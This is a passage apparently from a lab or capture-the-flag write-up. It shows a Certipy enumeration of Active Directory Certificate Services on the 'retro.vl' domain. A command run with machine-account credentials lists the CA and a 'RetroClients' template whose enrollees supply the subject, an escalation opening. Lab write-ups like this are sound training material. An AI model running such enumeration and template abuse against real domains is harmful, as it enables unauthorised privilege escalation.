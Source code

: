 The enumeration reveals an active Certificate Authority (`retro-DC-CA`) with multiple certificate templates available, including a custom `RetroClients` template that warrants further investigation.

### Detailed Certificate Services Analysis

```
certipy-ad find -u BANKING$ -p 'newpassword' -stdout -dc-ip 10.10.83.167

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'retro-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'retro-DC-CA'
[*] Checking web enrollment for CA 'retro-DC-CA' @ 'DC.retro.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00
    Certificate Validity End            : 2028-07-23 21:13:50+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : RETRO.VL\Administrators
      Access Rights
        ManageCa                        : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        ManageCertificates              : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Enroll                          : RETRO.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
```